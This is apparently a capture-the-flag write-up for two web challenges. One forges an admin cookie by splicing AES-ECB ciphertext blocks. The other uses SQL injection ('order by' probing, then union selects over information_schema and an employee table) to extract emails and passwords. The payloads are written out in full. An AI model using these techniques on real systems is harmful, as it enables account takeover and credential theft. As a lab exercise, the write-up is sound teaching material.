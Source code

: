 The main page of the challenge consists on a form that allow us to encrypt an image with `AES-256`. From the [penguin](https://github.com/robertdavidgraham/ecb-penguin) we understand that the encryption is made in ECB mode. The use of ECB mode implies that equal blocks are encrypted in the same ciphertext. If the username is contained in our cookie, by changing the username block to the one of the admin cookie we are able to login as admin!

First, we generate two fresh `auth` cookie by logging in three times:

- `admon` -> `+UYTW+4246JXbTNBJxvQFpM22GUNDsWmb1eyJfuOhBlxQ5Q4cXM0bXn8JuoS3J9OJ3oeCqtTs7FlNOzXWOu1dA==`
- `admon` -> `+UYTW+4246JXbTNBJxvQFpM22GUNDsWmb1eyJfuOhBn+eFpEz6WXnE2IUXRBIGAq1ZT15QlBfVG9smXMt1Sh3A==`
- `admow` -> `m05IKB6+a6SY1vncwOBTpJM22GUNDsWmb1eyJfuOhBnh3xsyyb0BjCv6FzJEJbAScYoLDlhsBdxJiX0kpZN7OQ==`

By comparing the first two cookies we see a difference in the last blocks. This probably means that it has to do with the time of generation/expiration, since the username is the same.
The last cookie, compared to the previous two, contains a difference on the first part. We can safely assume that the first part is the username.

By taking the first block of the admin cookie and the last part of our cookie, we can generate a valid login cookie with username `admin`!

`/SsLocjiwUwqJW7uuAaD2` + `pM22GUNDsWmb1eyJfuOhBloQnwLsg1jLXEWPfK2wrYSeYK33B7FQ4qeQVmBc9zRbw==` = `/SsLocjiwUwqJW7uuAaD2pM22GUNDsWmb1eyJfuOhBloQnwLsg1jLXEWPfK2wrYSeYK33B7FQ4qeQVmBc9zRbw==`
By using this cookie we logged in as admin and get the flag.

### wolfhowl

The challenge description states "Log into WolfHowl to get the flag".

If we try to log in we get the error "Registration Disabled", so we understand that we have to find another way to obtain access.

By playing with the search form we can clearly see that the query `"` causes the error `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"""' at line 1 `.

First, we search for the number of parameters in the select statement. To do so, we change the order by until we get an error:

- `" order by 4 -- |` is okay;
- `" order by 5 -- |` gives an error;

Now we can estrapolate tables and column with a union!
With the payload `" union select 1,2,3,4 -- |` we understand that the first three parameters are visible in the response.
With the payload `" union select table_name,group_concat(column_name),3, 4 from information_schema.columns group by table_name-- |` we get all table and column names.
We notice an employee table with fields EmployeeId,LastName,FirstName,Title,ReportsTo,BirthDate,HireDate,Address,City,State,Country,PostalCode,Phone,Fax,Email,Password.

So, we fetch the emails and passwords with the query `" union select email, password, 3, 4 from employee -- |` and we are able to log in and get the flag.

## Misc
